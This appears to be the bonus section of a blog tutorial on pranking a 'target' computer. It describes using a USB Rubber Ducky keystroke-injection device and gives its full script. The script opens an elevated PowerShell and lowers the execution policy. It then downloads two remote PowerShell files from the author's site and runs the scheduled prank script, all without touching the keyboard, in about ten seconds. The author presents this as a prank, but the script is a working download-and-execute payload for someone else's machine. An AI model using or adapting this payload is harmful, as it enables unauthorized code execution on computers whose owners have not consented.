 ## (Bonus) Step 4: Going Further with Automation

I had this script written and running on the primary target and a few extra systems. It worked great. I then attended [DerbyCon](http://www.derbycon.com/), which is a security conference in Louisville, KY. While there, I decided to obtain a device called a USB Rubber Ducky, I had heard of this device before; but at the time, I didn't have a use for it... until now.

What this device does is emulate a keyboard and is used as a keystroke injection device. With a bit of automation, I was able to skip that whole opening a directory, publish some scripts to a web service, customize a payload to download it, and let it run. I have tested this on one system thus far, it runs flawlessly and without me touching the mouse or keyboard executes in about 10 seconds. I yank the device out and go about my business.

## [Buy your very own USB Rubber Ducky!](http://hakshop.myshopify.com/products/usb-rubber-ducky)

```
DELAY 1000
ESCAPE
DELAY 200
CONTROL ESCAPE
DELAY 200
STRING powershell.exe
DELAY 400
MENU
DELAY 300
RIGHTARROW
DELAY 100
RIGHTARROW
DELAY 100
RIGHTARROW
DELAY 100
ENTER
DELAY 600
ALT Y
DELAY 300
STRING Set-ExecutionPolicy RemoteSigned
Delay 100
STRING New-Item $HOME\bin -Type Directory 
ENTER
DELAY 100
STRING Invoke-WebRequest -uri "http://mattblogsit.com/psvoice/voice.txt" -OutFile "$HOME\bin\voice.ps1"
ENTER
DELAY 100
STRING Invoke-WebRequest -uri "http://mattblogsit.com/psvoice/prankSchedule.txt" -OutFile "$HOME\bin\prankSchedule.ps1" 
ENTER
DELAY 100
STRING powershell $HOME\bin\prankSchedule.ps1
ENTER
DELAY 100
STRING exit
ENTER
```
